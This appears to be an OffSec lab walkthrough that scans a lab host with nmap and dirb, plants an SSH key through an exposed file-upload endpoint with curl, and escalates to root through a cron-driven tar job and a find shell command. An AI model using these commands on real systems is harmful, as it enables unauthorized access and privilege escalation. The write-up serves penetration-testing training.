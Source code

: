 ## Nmap scan

```
nmap -sV -p- 192.168.55.249 --open --vv
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 14:17 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 14:17
Scanning 192.168.55.249 [2 ports]
Completed Ping Scan at 14:17, 2.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:17
Completed Parallel DNS resolution of 1 host. at 14:17, 0.00s elapsed
Initiating Connect Scan at 14:17
Scanning 192.168.55.249 [65535 ports]
Discovered open port 21/tcp on 192.168.55.249
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 16.20% done; ETC: 14:20 (0:02:14 remaining)
Discovered open port 25022/tcp on 192.168.55.249
Discovered open port 33414/tcp on 192.168.55.249
Connect Scan Timing: About 42.79% done; ETC: 14:19 (0:01:15 remaining)
Stats: 0:01:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 55.66% done; ETC: 14:19 (0:00:54 remaining)
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 67.47% done; ETC: 14:19 (0:00:38 remaining)
Discovered open port 40080/tcp on 192.168.55.249
Completed Connect Scan at 14:19, 106.47s elapsed (65535 total ports)
Initiating Service scan at 14:19

Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
25022/tcp open  ssh     syn-ack OpenSSH 8.6 (protocol 2.0)
33414/tcp open  unknown syn-ack
40080/tcp open  http    syn-ack Apache httpd 2.4.53 ((Fedora))
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

```

## Dirb scan

```
dirb http://192.168.55.249:40080/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 24 14:21:56 2023
URL_BASE: http://192.168.55.249:40080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.55.249:40080/ ----
                                                                             + http://192.168.55.249:40080/cgi-bin/ (CODE:403|SIZE:199)                  
                                                                             ==> DIRECTORY: http://192.168.55.249:40080/images/
+ http://192.168.55.249:40080/index.html (CODE:200|SIZE:1092)               
+ http://192.168.55.249:40080/LICENSE (CODE:200|SIZE:6555)                  
                                                                             ==> DIRECTORY: http://192.168.55.249:40080/styles/
                                                                            
---- Entering directory: http://192.168.55.249:40080/images/ ----
                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                            
---- Entering directory: http://192.168.55.249:40080/styles/ ----
                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Wed May 24 14:21:59 2023
DOWNLOADED: 4612 - FOUND: 3

```

```
dirb http://192.168.55.249:33414/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 24 13:52:33 2023
URL_BASE: http://192.168.55.249:33414/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.55.249:33414/ ----
                                                                             + http://192.168.55.249:33414/help (CODE:200|SIZE:137)                      
+ http://192.168.55.249:33414/info (CODE:200|SIZE:98)                       
                                                                               
-----------------
END_TIME: Wed May 24 13:52:41 2023
DOWNLOADED: 4612 - FOUND: 2

```

## directories availabe
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/0ca6ec95-7e76-4eda-9fe5-4507267a85e5)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/fb6b7da0-7b7c-4b3b-9d32-baa170f5003f)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5e27e0c9-6e25-4efd-a950-c91193e43f58)

## SSH using authorized_keys
```
curl -i -X POST -H "Content-Type: multipart/form-data" -F file="@id_rsa.pub.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http:/192.168.212.249:33414/file-upload

```
```
ssh -i id_rsa alfredo@<ip> -p 25022
```
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/cce4b937-8584-4993-a22d-2d1b7837b4f3)

- trying to find , how the files got created , so found a cronjobs file (crontab)
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e426c93f-b4fa-4352-9746-7fc0d4293e44)

`/usr/local/bin/backup-flask.sh`
 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/c189cb72-229e-4542-8a58-5550da22bc69)

- using find command we can able to find what are the bins has sudo permissions, but the find command need permission.

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5d329a13-53de-4018-97b6-44bfa7629609)

- Here the tar command is used , so its runs on the restapi directory , so creating a tar file to make the `find` bin with sudo perm.

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/2b925d2b-6873-4066-99f9-4825985ea580)

- again I forgot to give chmod +x to make the tar as excecutable. :>

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e1583f7e-9df9-4522-bbb4-4ff2bf88d196)

## privilage Escalation

`find . -exec /bin/sh -p \; -quit`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6d8accea-f672-4ee0-9e3a-73754b259bdb)


